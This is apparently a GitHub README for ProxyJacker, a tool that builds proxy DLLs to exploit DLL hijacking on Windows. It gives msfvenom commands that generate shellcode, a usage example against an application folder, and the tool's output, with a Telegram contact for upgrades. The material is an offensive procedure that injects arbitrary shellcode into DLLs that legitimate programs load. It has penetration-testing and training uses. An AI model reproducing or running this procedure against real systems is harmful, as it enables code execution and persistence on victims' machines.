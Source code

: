 # ProxyJacker

### Details:

Tool for creating forwarding DLL for exploiting DLL hijacking vulnerability.

### Requirements:

- [ ] Mingw-64 installed.
- [ ] Python 3.
- [ ] PEfile library.
- [ ] Colorama and Termcolor libraries.

### Procedure:

1. Create shellcode with msfvenom and save it as a binary file.

   ```bash
   msfvenom -p windows/x64/exec cmd=cmd.exe -f raw -o shellcode.bin -b "\x00" # FOR 64bit
   msfvenom -p windows/exec cmd=cmd.exe -f raw -o shellcode.bin -b "\x00" # FOR 32bit
   ```

2. Run the script with appropriate arguments.

   ```bash
   kali@kali:~/proxyjacker$ python3 proxydllhijacker.py <DLL File Location> <Path to shellcode binary file> [Optional: Location for real DLL]
   
   Example:
   kali@kali:~/proxyjacker$ python3 proxydllhijacker.py version.dll shellcode.bin "C:/Program Files (x86)/Testingapp/"
   
   Output:
   Proxy DLL Creator For DLL Hijacking
            By
          Rikunj Sindhwad
            [Mr.R0b07]

   [*] GCC is installed and available.
   [*] DLL is 32bit
   [*] Definition File Created with name of export.def
   [*] Created 32bit DLL: version_proxy.dll
   kali@kali:~/proxyjacker$
   ```

### Changelogs:

1. Initial version.
2. Added custom path to redirect.
3. Added dynamic shellcode injection from binary file.
4. Added GCC check to ensure availability before compilation.

##### Upgrade Request:

For upgrade requests, connect with me on [Telegram](https://t.me/R0B077).

#### Credits:

Credits to Pentester Academy for teaching such great stuff.

